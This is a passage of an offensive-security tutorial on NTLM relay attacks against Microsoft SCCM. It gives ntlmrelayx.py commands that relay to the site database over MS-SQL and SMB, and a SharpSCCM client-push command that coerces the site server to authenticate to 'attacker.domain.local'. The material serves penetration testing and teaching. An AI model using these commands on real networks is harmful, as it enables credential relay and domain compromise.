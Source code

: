 From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose. In the examples below, the `-socks` option is used for more versatility but is not required.

```bash
# targetting MS-SQL
ntlmrelayx.py -t "mssql://siteDatabase.domain.local" -smb2support -socks

# targeting SMB
ntlmrelayx.py -t "siteDatabase.domain.local" -smb2support -socks
```


=== Windows

From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it does not feature the same SOCKS functionality, needed in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.

:::


Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](../ntlm/relay).

##### Step 3: coerce authentication

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](../print-spooler-service/printerbug), [PetitPotam](../mitm-and-coerced-authentications/ms-efsr), [ShadowCoerce](../mitm-and-coerced-authentications/ms-fsrvp), [DFSCoerce](../mitm-and-coerced-authentications/ms-dfsnm), etc.).

::: tabs

=== UNIX-like

From UNIX-like systems, authentication can be coerced through [PrinterBug](../print-spooler-service/printerbug), [PetitPotam](../mitm-and-coerced-authentications/ms-efsr), [ShadowCoerce](../mitm-and-coerced-authentications/ms-fsrvp), [DFSCoerce](../mitm-and-coerced-authentications/ms-dfsnm), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).


=== Windows


```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "" -t "attacker.domain.local"
```


:::

